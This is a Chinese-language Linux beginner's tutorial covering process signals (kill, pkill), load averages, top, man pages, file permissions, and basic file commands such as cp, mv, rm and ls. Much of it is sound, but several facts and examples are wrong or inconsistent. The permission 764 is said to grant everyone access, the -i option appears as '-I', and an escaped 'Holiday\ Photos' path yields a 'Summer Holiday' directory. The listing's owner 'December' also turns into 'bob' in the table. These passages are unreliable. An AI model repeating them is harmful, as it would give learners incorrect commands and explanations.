运行在前台的进程可以使用键盘由用户对其发送信号，其中通过使用 `Ctrl+z` 挂起、`Ctrl+c` 杀死和 `Ctrl+\` 获取核心转储等键向进程发送信号。

如果你想向在后台运行或完全不同会话运行的进程发送信号，你需要使用命令来发送信号。

你可以使用信号名称（`-HUP` 或 `-SIGHUP`）或信号数字（`-1`）来指定信号。

属于某个用户的进程可以由用户自己杀死，但属于其他用户的进程需要 root 用户权限才能被杀死。

- `kill` 命令可以使用进程 ID `PID` 向进程发送信号。

然而，无论名称如何，`kill` 命令也可以用于向进程发送其他信号，而不仅仅是发送终止进程的信号。

```bash
[student@desktop ~]$ kill PID
[student@desktop ~]$ kill -signal PID
```

- `killall` 命令可用于向多个进程发送信号，这些进程可能匹配给定的标准，例如属于特定用户的进程、命令名称、所有系统进程。

```bash
[student@desktop ~]$ killall command_pattern
[student@desktop ~]$ killall -signal command_pattern
[student@desktop ~]$ killall -signal -u username command_pattern
```

- 就像 `killall` 命令一样，还有一个名为 `pkill` 的命令，可以同时向多个进程发送信号。

与 `killall` 相比，`pkill` 使用的选择标准更为高级，包含以下内容：

- **Command**：使用命令名称匹配的模式。
- **UID**：使用 `UID` 匹配属于特定用户的进程。
- **GID**：使用 `GID` 匹配属于特定组的进程。
- **Parent**：属于特定父进程的子进程。
- **Terminal**：在特定控制终端运行的进程。

```bash
[student@desktop ~]$ pkill command_pattern
[student@desktop ~]$ pkill -signal command_pattern
[root@desktop ~]# pkill -G GID command_pattern
[root@desktop ~]# pkill -P PPID command_pattern
[root@desktop ~]# pkill -t terminal_name -U UID command_pattern
```

## 管理注销用户

`w` 命令列出所有登录系统的用户以及这些用户正在运行的进程。

你可以通过分析 `w` 命令来确定用户的位置。

*(注：源文件中剩余文本包含重复且碎片化的终端输出示例，已进行压缩以保持核心含义和清晰度。）*


```bash
[root@desktop ~]# pkill -P 8341

[root@desktop ~]# pstree -l -u alice
bash(8341)

[root@desktop ~]# pkill -SIGKILL -P 8341

[root@desktop ~]# pstree -l -u alice
bash(8341)

[root@desktop ~]#
```

# 进程监控

在本节中，我们将学习如何实时监控进程，以及如何解释系统 CPU 的平均负载（load averages）。

## 平均负载 (Load Average)

Linux 内核能够计算平均负载指标，它是负载数的指数移动平均值，是根据给定实例中活跃系统资源的的 CPU 累积计数。

*   当前运行的线程或等待输入/输出的线程被计为 CPU 队列中的活跃请求。

同时，内核会跟踪进程资源的活动情况以及进程状态的变化。

*   系统默认每隔五秒运行一次的计算程序被称为负载数（load number）。

负载数会将每个 CPU 的所有活跃请求累积并平均为一个单一数字。

*   用于平滑趋势数据高低、增加当前活动重要性权重以及减少陈旧数据影响的数学公式被称为指数移动平均值。

*   负载数计算的结果被称为平均负载（load average）。

它指的是三个数字，分别显示 1 分钟、5 分钟和 15 分钟的平均负载。让我们尝试理解 Linux 系统中平均负载是如何工作的。平均负载是对系统一段时间内接收到的负载的感知。

除了 CPU，平均负载计算还考虑了磁盘和网络的输入/输出。

*   Linux 系统不仅仅计算进程。

进程的线程也会被单独计算并被视为不同的任务。请求 CPU 队列的运行线程（`nr_running`）和等待 I/O 资源的线程（`nr_iowait`）分别对应进程状态 `R` 运行（Running）和 `D` 不中断睡眠（Uninterruptible Sleeping）。可能处于睡眠的任务正在等待磁盘响应，网络也包含在等待输入/输出 I/O 的任务中。

*   系统的所有 CPU 都被考虑在内，其中负载数是计算的全局计数器。我们无法获得每个 CPU 准确的任务计数，因为最初处于睡眠状态的任务在恢复时可能会被分配到不同的 CPU。因此，我们采用具有累积准确性的计数。

显示的平均负载代表所有 CPU。

*   Linux 会将 CPU 的每个物理核心和微处理器超线程（hyperthread）视为一个执行单元，因此视为一个独立的 CPU。每个 CPU 的请求队列是独立的。你可以检查 `/proc/cpuinfo` 文件，它包含了所有关于 CPU 的信息。

```bash
[root@desktop ~]# grep “model name” /proc/cpuinfo
model name: Intel(R) Core(TM) i5 CPUM 2600 @ 2.60GHz
model name: Intel(R) Core(TM) i7 CPUM 2600 @ 3.60GHz
model name: Intel(R) Core(TM) i7 CPUM 2600 @ 3.60GHz
model name: Intel(R) Core(TM) i7 CPUM 2600 @ 3.60GHz
[root@desktop ~]# grep “model name” /proc/cpuinfo |wc -l
```

*   早先所为人知的 UNIX 系统通常只考虑 CPU 负载或运行队列的长度来计算系统负载。但很快人们意识到，系统可能会有空闲的 CPU，但磁盘和网络等其他资源可能是忙碌，这一点被纳入现代 Linux 系统显示的平均负载中。

如果尽管 CPU 活动极少但平均负载仍然很高，你可能需要查看磁盘和网络。现在让我们学习如何解释平均负载显示的数值。这是系统管理员的一项重要技能。

正如我们已经看到的，你将看到三个值，它们是 1 分钟、5 分钟和 15 分钟内的负载值。快速查看这三个值就足够理解系统负载是在增加还是减少。然后我们可以计算出每个 CPU 负载的近似值，这将让我们知道系统是否正在经历严重的等待时间。

*   你可以使用命令行工具 `top`、`uptime`、`w` 和 `gnome-system-monitor` 显示平均负载值。

*   ```bash
[root@desktop ~]# uptime
15:30:45up14 min,2 users,load average: 2.56, 4.56, 5.76
```

*   你现在可以将看到的平均负载值除以系统中存在的逻辑 CPU 数量。如果结果显示小于 1，则意味着资源利用率和等待时间极低。如果值大于 1，则表示资源已饱和且存在等待时间。

*   运行进程的默认是加粗显示。这些切换键可以反转高亮。

*   `B` 可以在表头、显示和运行进程中启用加粗。

# 实时进程监控

与 `ps` 命令类似，`top` 命令提供了进程的动态视图。区别在于 `ps` 的输出本质上是静态的，只提供一次输出。`top` 的输出是动态的并不断刷新值。值的刷新间隔可以自定义。还可以配置其他内容，如排序、列重排、高亮等，这些用户配置可以保存并持久化。

## 默认列

*   `PID`: 进程 ID
*   `USER`: 进程所有者，即用户名
*   `VIRT`: 进程使用的所有内存，包括共享库使用的内存、驻留集以及可能映射或交换的内存页。
*   `RES`: 进程使用的物理内存，称为驻留内存，包括共享对象使用的内存。
*   `S`: 进程状态，显示为 `D`: 不中断睡眠、`R`: 运行或可运行、`S`: 睡眠、`T`: 跟踪或停止、`Z`: 僵尸。
*   `TIME`: 自进程开始以来的总处理时间被称为 CPU 时间。它可以切换为显示所有之前子进程的累积时间。
*   `COMMAND`: 进程命令名

现在让我们过一下一些在使用 `top` 显示时对系统管理员有帮助快捷键。

| 键 | 用途 |
| :--- | :--- |
| `?` 或 `h` | 显示帮助部分 |
| `l, t, m` | 切换内存、负载和线程的表头 |
| `1` | 切换显示单个 CPU 或所有 CPU |
| `s` | 以秒为单位更改屏幕刷新率 |
| `b` | 运行进程的默认是加粗显示。这些切换键反转高亮 |
| `B` | 可以在表头、显示和运行进程中启用加粗 |
| `H` | 用于切换线程以显示单个线程或进程摘要 |


| u, U | 用于过滤用户名 |
| M | 进程按内存使用率从降序排序 |
| P | 进程按处理器使用率从降序排序 |
| k | 杀死进程。在提示时，输入 PID 和信号 |
| r | 调整进程优先级 (nice)。在提示时，输入 PID 和 nice_value |
| w | 在再次启动 top 时保存或写入当前的显示配置 |
| q | 退出 |

# 第 10 章：帮助页 (Manual Pages)

大多数人可能无法得知使用 Linux 命令行所带来的巨大力量和机会。也许是因为他们害怕使用这个系统。

如果你的记忆力多或少和我一样，那么事实是，你在回忆细节时会面临巨大的挑战。然而，幸运的是，我们拥有一个易于使用的系统，它能提供大量关于我们在命令行中可以做的事情的信息。

这是我们在本节要学习的主要内容。首先，让我们开始学习如何使用帮助页。

## 它们到底是什么？

帮助页（Manual pages）是指一组页面，它们对系统上可用的每一个命令提供详细解释。它们还提供了关于命令功能的详细信息、如何运行命令的具体信息以及命令接受的参数。

老实说，其中某些内容相当难以理解和掌握。然而，好处是它们的结构是一致的。这意味着一旦你理解了它们，它们并没有看起来或听起来有那么糟糕。

## 搜索

我知道你可能在想，是否可以对帮助页进行搜索。嗯，这是非常重要的一点，尤其是当你不确定要使用什么命令，但知道自己想要实现的任务时。

为了让这种方法生效，你可能需要尝试几次。因为发现某个特定单词在帮助页中出现多次是非常常见的现象。这意味着如果你想在某个帮助页内进行搜索，是完全可能的。

要在某个特定的帮助页上进行搜索，你需要做的第一件事是按下键盘上的正斜杠 `/`，然后输入你想要搜索的术语。最后按回车。

在术语出现多次的情况下，你可以只需按 `n` 键（代表 next）来导航到下一个匹配。

## 命令行选项

为了精通 Linux，你首先需要理解命令行选项是如何用于修改其他命令的行为，以便成功执行我们预想的任务。

这些选项大部分都有长格式和短写形式。例如，你可以使用命令行选项 `-a` 或 `--all`。但它们执行的功能相同。长格式只是一种更符合人类阅读习惯的格式。使用长格式选项的主要优势是它让你更容易回想起该命令的功能。然而，在学习后，你会发现使用短写的优势在于，可以非常方便地组合多个命令。

考虑以下示例：

```
meenu@bash:pwd
/home/Linusss
meenu@bash:ls -a
meenu@bash:ls --all
meenu@bash:ls -alh 
```

当你查阅 `ls` 命令的帮助页时，你就能知道其他命令的功能。你会发现长格式命令选项以两个破折开头，而短写命令选项以单个破折开头。每当我们使用单个破折时，我们只需将代表该选项的所有字母放在破折后面，即可一次性调用多个选项。

## 总结

为了总结我们在本中学学的内容，我们将回顾学过的命令及其扮演的角色。

- `man <command>` 用于查找命令的帮助页。例如，`man ls` 用于查找列表命令（ls）的帮助页。
- `man -k <search term>` 用于对包含搜索术语的帮助页进行关键词搜索。
- `/<term>` 用于在帮助页内执行术语搜索。
- `n` 用于在搜索后导航到帮助页中的下一个项目。

你必须知道的最重要的一点是，成为 Linux 专家，你必须让帮助页成为你的朋友。这是寻找命令及其作用的最简单方法，而不是在计算机可以简单为你完成任务时，却费尽脑汁去记忆这些！

## 练习活动

现在我们已经多学了一些内容，让我们尝试一下以下操作：

1. 快速浏览 `ls` 命令的帮助页。
2. 尝试那里列出的一些命令行选项，并记录它们的作用。
3. 确保在过程中，尝试使用相对路径和绝对路径进行几种组合。
4. 现在，我希望你通过帮助页执行多次搜索。根据所选术语，你可能会得到一个很长的列表。查看几个页面，感受一下它们的外观或感觉。

# 第 11 章：操作文件和目录

现在你已经开始上手操作了，你一定很渴望进行更多的编码，并真正开始在系统中玩起来。我保证你会做到的，但首先，还有一些你真正需要学习的理论，这样当你进入系统时，就能真正理解它为什么这样做，以及如何利用你学过的命令做更多事情。所以，让我们深入观察你需要学习的核心概念。

## 访问权限

权利或权限允许特定用户或用户组限制对特定文件或目录的访问。共有三种访问权限：

- `Read (r)`：文件的读取权限（允许打印、显示和复制文件，并允许遍历目录或显示目录中的文件）
- `Write (w)`：文件的写入权限（允许修改文件，允许删除文件或在目录中保存文件）
- `Execute (x)`：文件的执行权限（允许运行程序、可执行文件，并能够访问目录文件的管理信息，如 inode、权限表）。

对于每个文件，访问权限针对三类用户进行设置：

- `user (u)`：文件组的所有者
- `filegroup (g)`：拥有该文件的组
- `all (a)`：所有用户

要查看当前目录下所有文件的权限：使用 `ls -la`。访问权限也可以以八进制形式表示，即使用 0 到 7 的数字。

每种权限（`r`、`w`、`x`）对应一个八进制值（`4`、`2` 和 `1`），八进制值按每类用户（`u`、`g`、`o`）累加。对于每类用户（`u`、`g`、`o`），八进制值可以取 0, 1, 2, 3, 4, 5, 6 和 7。

例如，三类用户所有权限的组合（`rwx rwx rwx`）等于八进制值 `777`。

- `0` 表示无权限
- `1` 是执行权限（`--x`）
- `2` 是写入权限（`-w-`）
- `3` 对应执行写权限（`-wx`）
- `4` 对应读取权限（`r--`）
- `5` 是读执行权限（`rx`）
- `6` 对应读写权限（`rw-`）
- `7` 是读、写、执行权限（`rwx`）

例如：
- `666` 赋予所有人读和写权限
- `764` 赋予所有人权限
- `700` 赋予文件所有者权限

当超级用户设置特殊权限（“s”和“t”）时，八进制数可以是四位数。

## 旧版 Unix 文件命名规则

我们被限制在 14 个字符，但现在长文件名处理范围为 1 到 255 个字符。


斜杠 (`/`) 是禁止的，因为它是树结构中的目录分隔符，代表根，即树的顶端。

以点开头的文件名是隐藏文件或隐藏目录。默认情况下，不带 `-a` 选项的 `ls` 命令不会显示它们，大多数命令不会考虑它们，更不用说显式提到它们。

双点 (`..`) 标识父目录，点 (`.`) 标识当前目录或工作目录。这两个文件存在于所有目录中。

因此，无法用单个点或两个点来命名文件，因为这些指针已经存在（在同一目录下不可能有两个同名文件，而且你无法删除指向当前目录或父目录的指针）。

## Linux 中一切皆皆文件

这是一个非常重要的概念——Linux 中的一切，无论它身在何处或在做什么，都是一个文件。文本文件显然是文件。目录也是文件。

你的电脑键盘是一个只读文件，你电脑的显示器——即使这也是一个文件，尽管它是可写文件。一切皆如此。起初这对你的操作不会产生任何实际影响，但你必须始终记住这一点，因为它将帮助你理解 Linux 如何进行目录和文件管理。

## Linux 被称为“无扩展名系统”

这个稍微难理解，但当你阅读这本书并学习更多知识时，你会发现它是有道理的。

文件扩展名
文件扩展名通常由点后的一系列 2、3 或 4 个字符组成。你已经已经在 Word (`.doc`, `.docx`)、`.pdf` 等见过它们了。这个扩展名告诉了你正在处理的文件类型。以下是你可能会遇到的一些常见扩展名：

* `File.exe`:一个程序或可执行文件
* `File.txt`:一个纯文本文件
* `File.png`, `file.jpg`, `file.gif`: 都是图像文件

在许多系统中（如 Windows）中，文件扩展名非常重要，因为系统会利用它来确定正在处理的是什么类型的文件。在 Linux 中，情况不同。Linux 系统会忽略该扩展名，而是调查文件本身以查看它是做什么的。

例如，你可以有一个名为 `monkey.gif` 的文件，一张猴子的图片。你可以给文件起一个新名字，例如 `monkey.txt` 甚至直接叫 `monkey`，Linux 会将其视为它原本的图像文件。正因如此，你有时可能会发现很难确定文件的类型，但在 Linux 中，有一个非常简单的方法可以通过使用一个简单的命令来发现：`file`。

```
file [path]
```

现在你可能在问自己为什么命令行参数是路径而不是文件。如果你回想起来，记住我们在命令行上指定的每个目录或文件都是路径。而且，由于目录也是文件，说路径无非是通往系统位置的旅程，而位置本身就是文件。

## Linux 是区分大小写的

这是最重要的概念之一，也是最容易让 Linux 程序初学者遇到问题的概念。你已经知道像 Windows 这样的系统在文件引用方面是不区分大小写的，但 Linux 则不相同。你可以拥有多个名称相同但大小写不同的目录或文件。

例如：

```
ls Documents
FILE2.txt File2.txt file2.TXT
...
file Documents/file2.txt
Documents/file2.txt: ERROR: cannot open 'file2.txt' (No such file or directory)
```

Linux 将这些每一个都视为一个独立的文件。大小写敏感也适用于命令行选项。例如，当你使用命令 `ls` 时，有两个不同的选项：`ls` 和 `lS`，它们的作用完全不同。最常见的错误之一是在应该输入大写字母的地方输入了小写字母，然后纳闷为什么程序没有按预期运行。

## 文件名或目录名中的空格

虽然在目录名或文件名中包含空格完全没问题，但你必须保持某种程度的谨慎。当我们想要在命令行上分隔几个项目时，我们在每个项目之间使用空格。空格告诉了我们程序名称是什么，以及如何识别命令行上的不同参数。

例如，如果我们想进入一个名为 `Summer Holiday` 的目录，接下来的示例将不起作用：

```
ls Documents
FILE2.txt File2.txt file2.TXT Summer Holiday
...
cd Summer Holiday
bash: cd: Holiday: No such file or directory
```

为什么呢？嗯，Summer Holiday 被 Linux 视为两个独立的命令行参数，因此命令 `cd` 只进入第一个。阻止这种情况发生的唯一方法是告诉终端 `Summer Holiday` 只是一个参数，有两种方法可以做到，这两种方法都是完全有效的。

### 引号
第一种方法是用引号包裹整个项目。你可以使用单引号或双引号（尽管两者之间有细微差别），但请确保开启和关闭引号时使用的是相同的符号。例如，不要用单引号开启却用双引号关闭。引号内的任何内容都被视为一个项目，例如：

```
cd 'Summer Holiday'
pwd
/home/cleopatra/Documents/Summer Holiday
```

### 转义字符
另一种方法是使用转义字符，反斜杠 (`\`)。转义字符会消除或转义赋予其后续字符的特殊含义，例如：

```
cd Holiday\ Photos
pwd
/home/cleopatra/Documents/Summer Holiday
```

正如你从这个示例看到的，分隔 Summer 和 Holiday 的空格通常具有特殊含义：将每个单词作为独立的命令行参数。通过使用转义字符，我们消除了该含义，这两个词就变成了一个参数。之前我们提到过所谓的 TAB 补全。如果你在到达目录名称中的空格之前使用它，终端会自动转义空格。

## 隐藏目录和文件

Linux 有一种非常棒的方法来指定目录或文件是否隐藏。如果名称以 `.`（字母后跟一个点）开头，它就是一个隐藏目录或文件。不需要特殊的命令或特殊操作来隐藏它们。

你可能想要隐藏目录或文件有几个原因，其中之一是它们与特定用户的配置有关。这些可以被隐藏，以免干扰用户可能正在进行的日常任务。所以，如果你想隐藏一个文件或目录，只需创建它或将其重命名为以 `.` 开头。同样，如果你想取消隐藏目录或文件，只需将其重命名，删除名称开头的 `.`。

你学过的列出目录和文件的命令将不会显示那些隐藏内容。相反，你可以修改命令添加 `-a` 作为命令行选项，允许显示那些隐藏文件和目录。

```
ls Documents
FILE2.txt File2.txt file2.TXT
...
ls -a Documents
. .. FILE2.txt File2.txt file2.TXT .hidden .file.txt
...
```

在这个示例中，你可以看到当列出目录和文件时，前两个是 `.` 和 `..`，如果你需要复习这些内容，请回到路径的章节。

## 总结

这里是对你在本节中所学内容的简要总结：

* `File` 用于获取目录或文件的类型信息。
* `ls -a` 列出目录中的所有文件，包括隐藏文件。
* Linux 中一切皆文件，包括目录。
* 文件扩展名并不重要，因为 Linux 会调查文件以查看它是什么。
* Linux 是一种区分大小写的语言，所以注意大小写。

实际操作


现在我们需要将这些知识付诸实践，所以请尝试以下操作：

- 使用几个不同的条目运行 `file` 命令，并确保你结合使用了绝对路径和相对路径。
- 接下来，给出一个命令，以显示你主目录中的所有内容，包括任何隐藏的目录或文件。

## 关于运行命令的更多内容

理解 Linux 在很大程度上取决于知道正确的命令行选项，根据你对命令如何操作，来改变它们的工作方式。

这些选项中的许多都有长格式和简写格式版本；例如，我们之前看到，当我们想要列出目录中的所有内容（包括隐藏条目）时，我们使用 `-a` 或 `--all`。

长格式版本只是易于人眼阅读的版本。你可以使用其中任何一种，因为它们的结果是相同的。

长格式的优势在于，当你回看自己的代码时，你会发现更容易理解命令的作用，而使用简写形式则允许你轻松地将几个命令组合在一起。

```
pwd
/home/cleopatra
ls -a
ls --all
ls -alh
```

因此，你可以看到长格式选项都以双短横线（`--`）开头，而简写选项都以单个短横线（`-`）开头。当你使用单横线时，可以通过在单横线后添加代表这些选项的所有字母来调用多个命令选项。要查看最后一个选项的作用，请查阅 `ls` 的主页。

### 手页 (Man pages)

这些是用于查询主手册页的命令：

- `man <command>`：查找某个命令的手册页
- `man -k <search term>`：使用关键词搜索所有包含该关键词的页面
- `/<term>`：在手册页中搜索单词“term”
- `n`：在页面上搜索完成后，选择找到的下一个条目
- 记住：`man` 页面非常有用，所以请根据需要经常使用它们。当你手头有这些工具时，不需要尝试去记忆一切。

## 实际操作

尝试以下内容来获得练习：

1. 浏览 `ls` 命令的手册页。
2. 尝试尝试你在那里看到的一些选项，并尝试将它们进行组合使用。
3. 不要忘记在 `ls` 命令中使用多种相对路径和绝对路径。
4. 现在尝试在 `man` 页中进行一些搜索。根据你搜索的内容，你可能会得到几个大列表。查看某些页面以了解它们是什么。

## 删除目录

正如你所看到的，创建一个新目录很容易，移除或删除一个目录也同样容易。不过，有一点你需要注意——Linux 命令行不包含任何 UNDO（撤销）选项。这意味着你要对自己正在的操作非常小心，因为一旦你删除了目录，它就永远消失了。

要删除目录，我们使用简单的 `rmdir` 命令，它是 remove directory（删除目录）的简写。

```
rmdir [options] <Directory>
```

这里还有两点你需要注意。首先，类似于 `mkdir`（创建目录）支持 `-v` 和 `-p` 选项，`rmdir` 也支持这些选项。其次，在删除目录之前，它必须是空的。不过，有一种绕过限制的方法，我们稍后来看。

```
rmdir linuxpractice/foo/bar
ls linuxpractice/foo
```

## 创建空文件

有很多用于文件数据操作的命令，如果你引用一个不存在的文件，它们会为你创建该文件。我们可以使用 `touch` 命令来创建一个空文件。

```
touch [options] <filename>
pwd
/home/cleopatra/linuxpractice
ls
foo
touch showcase1
ls
showcase1 foo
```

我们可以使用 `touch` 命令来更改文件的访问时间和修改时间。除非你正在根据这些访问规则和修改时间来测试你的系统，否则你不需要执行操作。

基本上，这里发生的是——这是你可以很好利用的一点——当你 `touch` 一个不存在的文件时，它会被为你创建。Linux 中有很多事情不是直接完成的，但如果你学会了某些命令的行为并学会如何创造地使用它们，你就可以实现你的目标。现在我们只有一个空文件，但很快我们将查看如何向文件中写入数据以及如何提取数据。

## 复制任何给文件/目录

你可能会创建一个目录或文件的副本——也许你想对某些内容进行更改，所以你会复制原始文件。这样，如果发生任何错误，你可以轻松地回到原来的状态。

为了做到，我们使用 `cp` 命令，意思是 copy（复制）。

```
cp [options] <source> <destination>
```

这个命令的选项较少，我们将在几后讨论其中一个。不过首先，查看 `cp` 手册页查看还有哪些可用选项。

```
ls
showcase1 foo
cp showcase1 sammy
ls
sammy showcase1 foo
```

你发现源路径和目标都是路径了吗？这意味着我们可以使用绝对路径和相对路径来引用它们。看下这几个示例：

```
cp /home/cleopatra/linuxpractice/showcase2 showcase3
cp showcase2 ../../backups
cp showcase2 ../../backups/showcase4
cp /home/cleopatra/linuxpractice/showcase2 /otherdir/foo/showcase5
```

因此，当使用 `cp` 时，目标可能是一个指向目录或文件的路径。如果它指向一个文件（如上面第一、第三和第四行示例所示），则会创建一个源文件的副本，并且它将具有目标路径中指定的名称。如果它指向一个目录，那么文件将被复制到该目录，并与源文件同名。

默认情况下，`cp` 只能复制文件，所以如果你想复制目录，你就需要使用 `-r` 选项，意思是 recursive（递归）。递归意味着进入目录，查看其中包含的文件和目录。要查看子目录，你执行相同的操作，但是从每个目录内部进行的。

```
ls
sammy showcase1 foo
cp foo foo2
cp: omitting directory 'foo'
cp -r foo foo2
ls
sammy showcase1 foo foo2
```

在这个示例中，我们从 `foo` 目录将所有文件和目录复制到 `foo2`。

## 移动文件或目录

移动文件可以通过 `mv` 命令简单完成，意思是 move（移动）。它的工作方式与 `cp` 非常相似，不同之处在于移动目录时不需要使用 `-r`。

```
mv [options] <source> <destination>
ls
sammy showcase1 foo foo2
mkdir backups
mv foo2 backups/foo3
mv sammy backups/
ls
backups showcase1 foo
```

让我们详细查看一下：第 3 行：创建一个名为 `backups` 的新目录。第 4 行：名为 `foo2` 的目录被移动到 `backups` 目录并重命名为 `foo3`。第 7 行：名为 `sammy` 的文件被移动到 `backups` 目录。它保留了原来的名称，因为我们没有提供目标名称。注意，再次我们对源和目标使用了路径，这些是绝对路径或相对路径。

## 重命名你的文件和/或目录

`mv` 的行为也可以创造性地使用给出不同的结果。通常，我们使用 `mv` 将文件或目录移动到新创建的目录。这种移动的一部分包括重命名该文件或目录。如果我们指定目标和源相似但名称不同，那就是对 `mv` 重命名目录或文件的一种创造性使用。

```
ls
backups showcase1 foo
mv foo foo3
ls
backups showcase1 foo3
cd ..
mkdir linuxpractice/testdir
mv linuxpractice/testdir /home/cleopatra/linuxpractice/frieda
ls linuxpractice
backups showcase1 foo3 frieda
```

让我们深入研究这个：第 3 行：名为 `foo` 的文件被赋予了新名称 `foo3`。路径都是相对的。第 6 行：移动了父目录。


我们这样做是为了在下一行中，展示如何从文件或目录的外部对它们所在的目录运行命令。

第 8 行：名为 `testdir` 的目录被重命名为 `frieda`。

我们对源使用了相对路径，对目标使用了绝对路径。

## 删除文件

正如我们在 `rmdir` 中看到的那样，当你删除一个文件时是无法撤销的，所以操作时务必小心。

删除或移除文件的命令是 `rm`，意思是 remove（移除）。

```
rm [options] <file>
```

```
ls
backups showcase1 foo3 frieda
```

```
rm showcase1
ls
backups foo3 frieda
```

## 删除非空目录

`rm` 命令也可以通过几个不同的选项进行修饰。

同样，请查看 `rm` 的帮助页（man page）以了解可以做什么，但最有用的选项之一是 `-r`。

像 `cp` 一样，它意味着递归（recursive），我们配合 `rm` 使用来删除指定的目录及其包含的所有内容。

```
ls
backups foo3 frieda
rmdir backups
rmdir: did not manage to get rid of the 'backups': Directory not empty
rm backups
rm: cannot get rid of 'backups': Is a directory
rm -r backups
ls
foo3 frieda
```

你可以配合 `r` 使用的另一个选项是 `-I`，意味着交互（interactive）。

这会在删除任何文件或目录之前向你确认，并为你提供一个改变主意并取消命令的选项。

## 最后的说明

我已经说过几次了，而且我会继续说：当我们在命令行中引用文件或目录时，它们就是路径。

它们可能是绝对路径或相对路径，而且在几乎所有情况下都是如此。

我不会再次提醒你这一点，我使用的示例也不会显示这一点，所以请记住它。

不要忘记在我们使用的命令中练习相对路径和绝对路径，因为每种都会产生不同的输出。

## 总结

这是你在这一节中学到的部分内容：

*   `Mkdir`: 代表 Make Directory（创建目录），允许我们创建新目录。
*   `Rmdir`: 代表 Remove Directory（删除目录），允许我们删除目录。
*   `Touch`: 允许我们创建空文件。
*   `Cp`: 代表 Copy（复制），允许我们复制目录或文件。
*   `Mv`: 代表 Move（移动），允许我们移动或重命名文件或目录。
*   `Rm`: 代表 Remove（移除），允许我们删除文件。
*   没有选项可以撤销你所做的任何操作，所以删除和移动文件及目录时要小心。
*   命令行选项：有很多选项，所以请使用每个命令的帮助页（man pages）来熟悉可用内容以及你可以做什么。

## 实际操作

你现在已经有了几个可以与系统交互的各种命令，让我们来练习一下吧。

尝试以下操作：

*   在主目录下创建一个全新的目录（这将允许你进行实验）。
*   在目录内部创建一些文件和一些目录，并在每个目录内部再创建更多文件和任何目录。
*   现在给其中一些对象起新名字。
*   回到主目录，从子目录复制一个文件到你创建的第一个目录中。
*   将文件移动到另一个目录。
*   取更多文件并重命名它们。
*   移动一个文件并确保它同时被重命名。
*   最后，检查主目录下已经存在的目录。

最可能的情况是你有 Downloads、Documents、Images 和 Music。

思考一下其他可以帮助你保持条井有序的目录并开始设置它们。

# 第 12 章：高级文件操作

这里是使用 `-l` 选项的 `ls` 命令的输出。

`-l` 告诉 `ls` 以长格式显示输出。

如果你需要查看存在哪些文件或目录，请使用 `ls`。但如果你需要详细信息，请使用 `ls -l`。

```
$ ls -l
-rw-rw-r-- 1 December users 10400 Oct 23 08:52 sales.data
```

在 `ls` 输出的最左侧是一系列代表文件权限的字符。

紧随权限之后的数字代表该文件的链接数。

下一项信息是文件的所有者，随后是组名。

接下来显示文件大小，然后是文件最后修改日期和时间。

最后显示文件或目录名称。

以下是 `ls -l` 命令以表格形式显示的信息：

| 项目 | 值 |
| :--- | :--- |
| 权限 | -rw-rw-r-- |
| 链接数 | 1 |
| 所有者 | bob |
| 组名 | users |
| 文件包含的字节 | 10400 |
| 最后修改时间 | Oct 23 08:52 |
| 文件名 | sales.data |

## 列出所有文件，包括隐藏文件

以点（`.`）开头的文件或目录被视为隐藏文件，默认不显示。

要显示这些隐藏文件和目录，请使用 `-a` 选项。

```
$ ls -a
..
.profile
.bash_history
lecture.mp3
PerfReviews
sales.data
tpsreports
```

到目前为止，当你使用选项时，在每个选项前都加了一个连字符（`-`）。

例如 `-l` 和 `-a`。

不带参数的选项可以组合。

只需要一个连字符，后跟选项即可。

如果你想显示包含隐藏文件的长 `ls` 列表，可以运行 `ls -l -a` 或 `ls -la`。

你甚至可以更改标志顺序，所以 `ls -al` 也可以。

它们都是等效的。

```
$ ls -l
total 2525
-rw-r--r-- 1 December sales 25628 Oct 23 08:54 lecture.mp3
drwxr-xr-x 3 December users 512  Oct 24 09:20 PerfReviews
-rw-r--r-- 1 December users 10400 Oct 23 08:52 sales.data
drwxr-xr-x 2 December users 512  Oct 24 14:49 tpsreports

$ ls -l -a
total 2532
drwxr-xr-x 4 December sales 512  Oct 24 14:56 .
drwxr-xr-x 14 root root 512  Oct 23 08:43 ..
-rw-r--r-- 1 December users 28    Oct 24 14:22 .profile
-rw------- 1 December users 3314  Oct 24 14:56 .bash_history
-rw-r--r-- 1 December sales 25628 Oct 23 08:54 lecture.mp3
drwxr-xr-x 3 December users 512  Oct 24 09:20 PerfReviews
-rw-r--r-- 1 December users 10400 Oct 23 08:52 sales.data
drwxr-xr-x 2 December users 512  Oct 24 14:49 tpsreports

$ ls -la
total 2532
drwxr-xr-x 4 December sales 512     Oct 24 14:56 .
drwxr-xr-x 14 root root 512      Oct 23 08:43 ..
-rw-r--r-- 1 December users 28      Oct 24 14:22 .profile
-rw------- 1 December users 3314    Oct 24 14:56 .bash_history
-rw-r--r-- 1 December sales 25628 Oct 23 08:54 lecture.mp3
drwxr-xr-x 3 December users 512  Oct 24 09:20 PerfReviews
-rw-r--r-- 1 December users 10400 Oct 23 08:52 sales.data
drwxr-xr-x 2 December users 512  Oct 24 14:49 tpsreports
```

## 按类型列出文件

当你对 `ls` 使用 `-F` 选项时，文件名后会附加一个字符，揭示其类型。

```
$ ls
dir1 link program regfile
```

```
$ ls -F
dir1/ link@ program* regfile
```

| 符号 | 含义 |
| :--- | :--- |
| / | 目录 |
| @ | 链接 |
| * | 执行程序 |

链接有时被称为 `symlink`，是 symbolic link（符号链接）的缩写。

链接指向实际文件或目录的位置。

你可以像操作实际文件或目录一样操作链接。

符号链接可以用于创建长目录名的快捷方式。

另一个常见用法是让符号链接指向已安装软件的最新版本，如示例所示。

```bash
bob@linuxsvr:~$ cd /opt/apache
```


```bash
bob@linuxsvr:/opt/apache ~$ ls -F
2.3/ 2.4/ current@

bob@linuxsvr:/opt/apache$ ls -l
drwxr-xr-x 2 root root 4096 Sep 14 12:21 2.3
drwxr-xr-x 2 root root 4096 Nov 27 15:43 2.4
lrwxrwxrwx 1 root root    5 Nov 27 15:43 current -> 2.4
```

## 按时间并反序列出文件

如果你想按时间对 `ls` 列表进行排序，请使用 `-t` 选项。

```bash
$ ls -t
```
```
tpsreports
PerfReviews
lecture.mp3
sales.data
```
```bash
$ ls -lt
```
```
total 2532
drwxr-xr-x 2 December users 512     Oct 24 14:49 tpsreports
drwxr-xr-x 3 December users 512     Oct 24 09:20 PerfReviews
-rw-r--r-- 1 December sales 2562856 Oct 23 08:54 lecture.mp3
-rw-r--r-- 1 December users 10400   Oct 23 08:52 sales.data
```

当你有一个包含许多文件的目录时，按时间（但采用反序）进行排序会非常方便。这会将最近修改的文件放在 `ls` 输出的末尾。旧文件会从屏幕顶部滚过，而最近的文件将紧邻你的提示符符。

